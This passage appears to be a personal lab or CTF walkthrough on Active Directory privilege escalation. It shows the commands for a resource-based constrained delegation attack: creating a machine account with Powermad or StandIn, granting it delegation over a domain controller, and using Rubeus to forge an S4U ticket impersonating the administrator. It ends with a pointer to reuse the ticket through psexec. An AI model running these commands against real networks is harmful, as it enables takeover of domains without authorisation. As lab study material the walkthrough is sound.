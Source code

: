 ```bash
# method 1, using powermad to create machine
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Set-ADComputer ResourceDC(targetcomputer) -PrincipalsAllowedToDelegateToAccount SERVICEA$

# method 2, using StandIn.exe. Tends to work more consistently
.\StandIn_v13_Net45.exe --computer purple --make
#[?] Using DC    : ResourceDC.resourced.local
 #   |_ Domain   : resourced.local
  #  |_ DN       : CN=purple,CN=Computers,DC=resourced,DC=local
   # |_ Password : DB9zGzkt4TKuiQP <<<<----- [YOUR PASSWORD IS HERE]
.\StandIn_v13_Net45.exe --delegation # shows accounts with resource-based constrained delegation permissions
Get-ADComputer -Filter * | select-object name, sid #get the sid of the new computer 
# S-1-5-21-537427935-490066102-1511301751-4101
.\StandIn_v13_Net45.exe --computer ResourceDC --sid S-1-5-21-537427935-490066102-1511301751-4101 # give the computer privileges to act on behalf of other users

# use rubeus after both either method of adding a machine account
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:resourced.local
.\rubeus.exe s4u /user:SERVICEA$ /aes256:8414A4894255194EA1E599813B167F2D28EC6ABB3302C69E1F079B12C260FCF9 /aes128:E47F3B5F5BB30029DC3C8612944D5ACE /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /domain:resourced.local /ptt
```

Run `klist` to see your imported ticket

![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%202.png)

You can’t really do much when it’s loaded locally like this, so you should try and use it remotely with psexec.

To do this, copy the base64 of the ticket outputed by Rubeus.
